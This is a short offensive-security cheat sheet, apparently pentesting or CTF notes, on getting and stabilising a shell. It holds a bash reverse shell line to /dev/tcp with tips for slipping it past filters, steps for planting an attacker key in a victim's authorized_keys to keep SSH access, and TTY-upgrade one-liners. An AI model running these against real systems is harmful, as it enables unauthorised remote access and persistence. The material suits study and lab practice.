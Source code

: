 ```yaml
---
sort : 1
---
```


# Get A Shell

## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


<br><br>



## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

you already having a shell ...  

```bash
# On the victim machine

# if you can write on the user dir (create files/dirs)
$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase):                           # no password 
    Enter same passphrase again:                                          # no password 


$ cat TmpKey.pub | xclip -selection c                                     # copy the public key
```

```bash
# Back to the victim side

$ echo "CTRL+V" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```


```note
why we are doing this ?? 

* better interactive shell experience 

* for SSH Tunneling if you don't have the password of the victim user 
```


### BruteForce Attack

not recommended ^^ :star:


<br><br>



# Spawn a TTY shell 

```bash
# Python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Script 
$ script /dev/null -c bash

# sh
$ /bin/sh -i

# bash
$ /bin/bash -i

# Echo
$ echo 'os.system('/bin/bash')'

# Perl
$ perl -e 'exec "/bin/sh";'

# From within VI
:!bash
```

```bash
$ export TERM=xterm-256color
$ export SHELL=BASH

# CTRL-Z
$ stty raw -echo; fg
# Enter twice
```